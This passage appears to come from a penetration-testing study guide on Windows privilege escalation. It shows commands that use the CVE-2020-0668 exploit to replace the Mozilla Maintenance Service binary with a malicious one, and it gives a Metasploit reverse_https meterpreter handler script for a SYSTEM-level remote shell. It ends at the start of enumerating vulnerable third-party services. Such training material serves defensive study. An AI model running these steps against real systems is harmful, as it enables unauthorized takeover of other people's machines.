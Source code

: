 Let's run the exploit. It accepts two arguments, the source and destination files:
```console
C:\zeropio> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\user\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

The exploit runs and executing icacls again:
```console
C:\zeropio> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

We can overwrite the **maintenanceservice.exe** binary in `c:\Program Files (x86)\Mozilla Maintenance Service`{: .filepath} with a good working copy of our malicious binary created earlier before proceeding to start the service. Let's move the good copy that was not corrupted by the exploit **maintenanceservice2.exe** to the Program Files directory, making sure to rename the file properly and remove the 2 or the service won't start:
```console
C:\zeropio> copy /Y C:\Users\user\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Next, save the below commands to a Resource Script file named **handler.rc**:
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Launch Metasploit with that settings:
```console
zero@pio$ sudo msfconsole -r handler.rc 
```

Start the service, and we should get a session as **NT AUTHORITY\SYSTEM**.

## Vulnerable Services

We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. As covered previously, let's start by enumerating installed applications to get a lay of the land:
```console
C:\zeropio> wmic product get name
```

Take for example the *Druva inSync* program. Enumerate local ports, to check where the suspicious target is running:
```console
C:\zeropio> netstat -ano
```

After finding the process ID (**PID**):
```console
PS C:\zeropio> get-process -Id 3324
```

